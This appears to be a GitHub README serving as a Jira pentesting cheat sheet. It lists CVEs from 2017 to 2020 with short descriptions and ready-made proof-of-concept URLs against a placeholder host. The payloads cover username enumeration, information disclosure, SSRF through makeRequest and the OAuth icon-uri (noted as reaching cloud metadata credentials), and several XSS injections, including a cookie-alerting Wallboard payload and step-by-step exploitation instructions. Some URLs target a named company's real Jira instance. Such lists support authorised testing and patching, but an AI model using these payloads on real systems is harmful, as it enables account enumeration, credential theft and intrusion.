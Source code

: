# JIRA_testing

### cve-2019-8449 - Username enumeration throw informaton disclosure vulnerability 

The /rest/api/latest/groupuserpicker resource in Jira before version 8.4.0 allows remote attackers to enumerate usernames via an information disclosure vulnerability. 
 https://jira.atlassian.com/browse/JRASERVER-69796
 https://victomhost/rest/api/latest/groupuserpicker?query=1&maxResults=50000&showAvatar=true
 
 -----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
 
 ### cve-2019-8451:ssrf-response-body 
 
The /plugins/servlet/gadgets/makeRequest resource in Jira before version 8.4.0 allows remote attackers
to access the content of internal network resources via a Server Side Request Forgery (SSRF) vulnerability due to a logic bug in the JiraWhitelist class.

https://jira.atlassian.com/browse/JRASERVER-69793?jql=labels%20%3D%20
 https://victomhost/plugins/servlet/gadgets/makeRequest?url=https://victomhost:1337@example.com
 
 ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
 
 ### RCE Jira=CVE-2019–11581
 
https://hackerone.com/reports/706841

/secure/ContactAdministrators!default.jspa

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### cve-2018-20824

 vulnerable to Server Side Request Forgery (SSRF). This allowed a XSS and or a SSRF attack to be performed. More information about the Atlassian OAuth plugin issue see 
 https://ecosystem.atlassian.net/browse/OAUTH-344 . 
 When running in an environment like Amazon EC2, this flaw can used to access to a metadata resource that provides access credentials and other
 potentially confidential information. 
 
https://victomhost/plugins/servlet/Wallboard/?dashboardId=10000&dashboardId=10000&cyclePeriod=alert(document.domain)

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### cve-2020-14179 :- Information disclosure

 Atlassian Jira Server and Data Center allow remote, unauthenticated attackers to view custom field names and custom SLA names via an Information Disclosure vulnerability 
 in the /secure/QueryComponent!Default.jspa endpoint.
REF=https://jira.atlassian.com/browse/JRASERVER-71536
POC: 
https://victomhost/secure/QueryComponent!Default.jspa

-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### cve-2020-14181 :- Enumerate user via information disclosure

Atlassian Jira Server and Data Center allow an unauthenticated user to enumerate users via an Information Disclosure vulnerability in the
/ViewUserHover.jspa endpoint.

Ref=https://jira.atlassian.com/browse/JRASERVER-71560?jql=text%20~%20%22cve-2020-14181%22
 POC:
https://victomhost/secure/ViewUserHover.jspa
https://victomhost/ViewUserHover.jspa?username=Admin

----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

https://hackerone.com/reports/380354
CVE-2018-5230
https://jira.atlassian.com/browse/JRASERVER-67289
HOW TO EXPLOIT:
https://host/issues/?filter=-8
Go to the link above
Click the "Updated Range:" text area
Put your XSS payload in "More than [ ] minutes ago" (15 character payload limit) or in "In range [ ] to [ ]" (No length limit, ONLY put the payload in the first box)
Click Update
Payload will run. If it doesn't run chances are you used double quotes somewhere. Only use single quotes!

----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### jira-unauthenticated-dashboards  

https://victomhost/rest/api/2/dashboard?maxResults=100

jira-unauth-popular-filters 
 https://victomhost/secure/ManageFilters.jspa?filter=popular&filterView=popular
 
 ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
 
 ### jira-unauth-popular-filters 
 
 https://victomhost/secure/ManageFilters.jspa?filter=popular&filterView=popular
https://hackerone.com/reports/197726
https://newrelic.atlassian.net/secure/ManageFilters.jspa?filterView=popular
https://newrelic.atlassian.net/secure/ManageFilters.jspa?filterView=search

https://hackerone.com/reports/139970

https://host/secure/ConfigurePortalPages!default.jspa?view=popular
https://host/secure/ManageFilters.jspa?filterView=search&Search=Search&filterView=search&sortColumn=favcount&sortAscending=false

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### Xss

/pages/%3CIFRAME%20SRC%3D%22javascript%3Aalert(‘XSS’)%22%3E.vm

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### CVE-2019-3403 :- user name enumeration throw information disclosure

Information disclosured vulnerability
1.()https://jira.atlassian.com/browse/JRASERVER-69242
visit the URL address,you can check the user whether is exist on this host
/rest/api/2/user/picker?query=admin

So the attacker can enumerate all existing users on this jira server.

----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### CVE-2019-8442 :- information disclosure

https://jira.atlassian.com/browse/JRASERVER-69241
visit the URL address,the server will leaking some server's information

/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### CVE-2017-9506

https://blog.csdn.net/caiqiiqi/article/details/89017806
/plugins/servlet/oauth/users/icon-uri?consumerUri=https://www.google.nl

-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### CVE-2019-3402：[Jira]XSS in the labels gadget

/secure/ConfigurePortalPages!default.jspa?view=search&searchOwnerUserName=x2rnu%3Cscript%3Ealert(1)%3C%2fscript%3Et1nmk&Search=Search
ConfigurePortalPages.jspa

----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### CVE-2018-20824：[Jira]XSS in WallboardServlet through the cyclePeriod parameter

/plugins/servlet/Wallboard/?dashboardId=10100&dashboardId=10101&cyclePeriod=(function(){alert(document.cookie);return%2030000;})()&transitionFx=none&random=true


----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### CVE-2017-9506

https://ecosystem.atlassian.net/browse/OAUTH-344
 exploit an SSRF vulnerability in confluence and was able to perform several actions such as bypass any firewall/protection solutions,
 was able to perform XSPA through assessing the response times for ports, access Internal DoD Servers and internal services.

I discuss the vulnerabilities exploited in my write which you can find here, 
https://medium.com/bugbountywriteup/piercing-the-veil-server-side-request-forgery-to-niprnet-access-c358fd5e249a

https://host/plugins/servlet/oauth/users/icon-uri?consumerUri=https://ipinfo.io/json

----------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### username and email diclose

https://host/secure/popups/UserPickerBrowser.jspa

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

